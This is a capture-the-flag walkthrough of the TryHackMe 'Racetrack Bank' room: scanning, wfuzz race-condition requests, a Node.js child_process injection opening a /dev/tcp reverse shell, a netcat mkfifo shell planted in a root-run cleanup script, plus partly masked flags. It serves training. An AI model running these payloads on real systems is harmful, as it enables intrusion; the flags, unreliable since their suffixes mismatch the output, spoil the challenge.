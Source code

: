 # Racetrack Bank

It's time for another heist.

[Racetrack Bank](https://tryhackme.com/room/racetrackbank)

- Network Enumeration
- Web Enumeration
- Code Injection
- Abusing SUID/GUID

## Lưu trữ phụ lục

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Flags

Hack into the machine and capture both the user and root flags! It's pretty hard, so good luck.

```
bibo318@parrot:~/CTFs/tryhackme/Racetrack Bank$ sudo nmap -A -sS -sC -sV -O 10.10.44.102
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-20 15:58 CEST
Nmap scan report for 10.10.44.102
Host is up (0.034s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 51:91:53:a5:af:1a:5a:78:67:62:ae:d6:37:a0:8e:33 (RSA)
|   256 c1:70:72:cc:82:c3:f3:3e:5e:0a:6a:05:4e:f0:4c:3c (ECDSA)
|_  256 a2:ea:53:7c:e1:d7:60:bc:d3:92:08:a9:9d:20:6b:7d (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Racetrack Bank
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.32 - 3.1 (86%), Linux 2.6.39 - 3.2 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   33.95 ms 10.8.0.1
2   34.09 ms 10.10.44.102

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.17 seconds
```

```
bibo318@parrot:~/CTFs/tryhackme/Racetrack Bank$ gobuster dir -u http://10.10.44.102/ -w /usr/share/wordlists/dirb/common.txt -t 25 -x php,html,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.44.102/
[+] Threads:        25
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     txt,php,html
[+] Timeout:        10s
===============================================================
2020/10/20 16:00:27 Starting gobuster
===============================================================
/create.html (Status: 200)
/home.html (Status: 302)
/Home.html (Status: 302)
/images (Status: 301)
/Images (Status: 301)
/index.html (Status: 200)
/Index.html (Status: 200)
/index.html (Status: 200)
/login.html (Status: 200)
/Login.html (Status: 200)
/purchase.html (Status: 302)
===============================================================
2020/10/20 16:01:01 Finished
===============================================================
```

[http://10.10.44.102/home.html](http://10.10.44.102/home.html)

wfuzz -w gold.txt -u http://10.10.44.102/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3A1_QrOdmwhf3pJserjzFqbCWZAqIYR8fv.vb7X%2BTckrABMYXkszRkdjHm59MnUjLGo9jPnfbBaCc0" -d "user=test2&amount=FUZZ"

wfuzz -w gold.txt -u http://10.10.44.102/api/givegold -H "Content-Type: application/x-www-form-urlencoded" -b "connect.sid=s%3AdztpeWIe47gRM3QkNL6s1zBf_NqHY9eb.DErxWEyXCczE%2BYifpQ2t%2F7rMBpsh1AHZpTk73Z9yj6M" -d "user=test&amount=FUZZ"

[http://10.10.44.102/premiumfeatures.html?ans=2](http://10.10.44.102/premiumfeatures.html?ans=2)

`calculation=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/10.8.106.222/9001+0>%261"')`

```
brian@racetrack:~/website$ cd ~
cd ~
brian@racetrack:~$ ls -l
ls -l
total 16
drwxrwxr-x 3 root  root  4096 Apr 23 05:07 admin
drwxr-xr-x 2 brian brian 4096 Apr 23 04:55 cleanup
-rw-rw-r-- 1 brian brian   39 Apr 23 05:45 user.txt
drwxrwxr-x 6 brian brian 4096 Apr 22 09:41 website
brian@racetrack:~$ cat user.txt
cat user.txt
THM{V0N318*****178c31090a7e0f69560730ad21d90e70}
```

```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.106.222 9002 >/tmp/f' > cleanup/cleanupscript.sh
```

```
brian@racetrack:~$ find / -perm -4000 -user root -type f 2> /dev/null
find / -perm -4000 -user root -type f 2> /dev/null
/home/brian/admin/manageaccounts
```

```
brian@racetrack:~$ cat root_flag.txt
cat root_flag.txt
THM{V0N318*****55a9d6099933f6c456ccb2711b8766e3}
```

1. User flag

`THM{V0N318*****178c31090a7e0f69560730ad21d90e7012**123:))}`

2. Root flag

`THM{V0N318*****55a9d6099933f6c456ccb2711b8766e312**123:))}`
